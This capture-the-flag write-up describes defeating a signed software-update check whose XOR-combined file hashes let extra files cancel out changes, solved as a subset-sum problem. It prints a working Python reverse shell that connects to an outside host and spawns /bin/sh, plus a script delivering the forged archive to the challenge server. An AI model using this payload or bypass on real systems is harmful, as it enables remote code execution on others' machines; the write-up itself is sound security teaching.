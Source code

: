 # Software update (Crypto, 182p, 23 solved)

In the task we get a package with the server script and example archive with "software update".
The server script simply reads a base64 encoded zip file from the socket, unpacks it, calculates expected signature of the archive contents and compares it with the attached signature.

If the signature matches the archive contents the server runs two python scripts inside the archive.
If we could add our own code in one of those scripts, we would gain RCE on the server.

Signature verification is:

```python
def check_signature(path, public_key):
    
    hash_value = compute_hash(path + "/signed_data")
    with open(path + "/" + signature_filename, "rb") as f:
        signature = f.read()
    verifier = PKCS1_PSS.new(public_key)
    return verifier.verify(Crypto.Hash.SHA256.new(hash_value), signature)
```

and it's rather solid. 
The RSA public key is strong and there is no way of forging the signature.

We have the example [update archive](sw_update.zip) with it's initial, correct signature.
It's the only signature we can really use, so the only way to smuggle some of our own code is if the archive contents hash does not change.

The hash is calculated as:

```python
def compute_hash(directory):
    """compute a hash of all files contained in <directory>."""
    
    files = glob.glob(directory + "/**", recursive=True)
    files.sort()
    files.remove(directory + "/")
    result = bytearray(hashlib.sha256().digest_size)
    
    for filename in files:
        complete_path = filename
        relative_path = os.path.relpath(filename, directory)
        if os.path.isfile(complete_path):
            with open(complete_path, "rb") as f:
                h = hashlib.sha256(relative_path.encode('ASCII'))
                h.update(b"\0")
                h.update(f.read())
        elif os.path.isdir(complete_path):
            relative_path += "/"
            h = hashlib.sha256(relative_path.encode('ASCII') + b"\0")
        else:
            pass
        
        result = xor(result, h.digest())
    
    return result
```

Initially we tried to use the fact that this function does not take into consideration all files, and does not count symlinks.
For example if this code: `relative_path += "/"` was not there, we could put a directory intead of one of the python files, without changing the archive hash.
Finally we came into conclusion that this can't be done.

The interesting thing to notice about this function is `result = xor(result, h.digest())`.

It contains a bug, most likely unintended - if we include a symlink in the archive, then new value of `h` will not be computed, and thus the xor will be performed again with the previous file hash, nullifying it.
Sadly this was not really exploitable.

This `xor` here is unusual, and we figured that we need to use it.
We can change one of the python scripts, and calculate the new hash.
Then we can xor this new hash with the old hash, and we will get the `difference hash`.
If we could now generate a file which would be hashed to this exact value, we could use it to nullify the changes we made to the script.
But this would mean basically breaking sha256, because we would like to get a plaintext for a given hash value...

However, we don't need to do this with a single file!
We can use as many files as we need.
This becomes a problem similar to `Subset Sum` - given a list of random files for which we know sha256 hashes, we would like to know if `xor` of a subset of those hashes gives the `difference hash` we have.
We generated a bunch of empty randomly-named files, hashed them the same way as in the server (so with trialing nullbyte), and the run a modified `subset sum` solver on them, with the target value set to the `difference hash`.

This way we got a list of files, which included in the archive would cause the archive hash to be identical to the initial one.
Once we knew the method works we created a reverse shell in on the installer python scripts:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("tailcall.net",12345))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

we generated a new set of files to include in the archive, zipped it and sent to the server via:

```python
def send_payload():
    with codecs.open("new_update/sw_update.zip", "rb") as input_file:
        payload = base64.b64encode(input_file.read())
        s = nc("35.198.64.68", 2023)
        msg = s.recv(9999)
        challenge = re.findall(b"Proof of work challenge: (.*)\s+", msg)[0]
        send(s, str(solve_proof_of_work(challenge)))
        print(s.recv(9999))
        send(s, payload)
        print(s.recv(9999))
send_payload()
```

And after a moment we got a connection to our reverse shell.
